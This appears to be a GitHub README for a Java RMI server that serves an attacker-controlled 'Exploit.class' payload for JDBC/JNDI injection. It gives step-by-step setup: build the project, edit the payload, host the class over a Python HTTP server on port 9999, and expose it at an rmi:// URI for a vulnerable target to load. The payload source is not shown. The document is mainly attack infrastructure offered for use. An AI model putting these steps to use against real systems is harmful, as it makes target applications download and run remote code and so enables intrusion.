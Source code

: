 # RmiServer

Java Rmi Server for jdbc Payload

## Step 1

import project into eclipse and build

`note` : you can change paylaod in src/Exploit.java 

## Step 2

Run WebServer in bin/ for Exploit.class

```python
python2 -m SimpleHTTPServer 9999
python3 -m http.server      9999
```

## Step 3

Start Rmi Server

Right click on src/RmiServer.java and select "Run As -> Java Application"

## Step 4

Now you can visit RmiServer by URI "rmi://127.0.0.1:1099/Exploit" 
